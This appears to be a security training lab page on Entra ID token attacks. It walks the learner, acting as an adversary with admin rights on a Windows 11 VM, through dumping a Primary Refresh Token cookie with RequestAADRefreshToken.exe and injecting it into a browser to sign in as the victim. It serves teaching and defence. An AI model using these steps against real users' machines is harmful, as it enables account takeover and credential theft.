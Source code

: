 # Lab 3 - Token Attacks
### Prepare a victim user with high privileges: 
1. RDP and login to the Win11 VM using the "***YOURUSER@boazwassergmail.onmicrosoft.com***" "victim" user that you've created in the previous lab.
2. run ```dsregcmd /status``` and make sure you see ```AzureAdPrt : YES```
![prt](prtexists.png)

#
# Attacks
From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Win 11 VM 
#
## 1. Get PRT Cookie using RequestAADRefreshToken.exe
1. Run RequestAADRefreshToken.exe
```
Requesting cookies for the following URIs: https://login.microsoftonline.com/
PID  : 37808

Uri: https://login.microsoftonline.com/
    Name      : x-ms-RefreshTokenCredential
    Flags     : 8256
    Data      : <...snip JWT...>; path=/; domain=login.microsoftonline.com; secure; httponly
    P3PHeader : CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"

DONE
```
2. Clear your browser cookies and go to https://login.microsoftonline.com/login.srf
3. F12 (Chrome dev tools) -> Application -> Cookies
4. Delete all cookies and then add one named `x-ms-RefreshTokenCredential` and set its value to the JSON Web Token(JWT) in the `Data` field that RequestAADRefreshToken.exe output
5. Refresh the page (or visit https://login.microsoftonline.com/login.srf again) and you'll be logged it

Reference: https://github.com/leechristensen/RequestAADRefreshToken, https://posts.specterops.io/requesting-azure-ad-request-tokens-on-azure-ad-joined-machines-for-browser-sso-2b0409caad30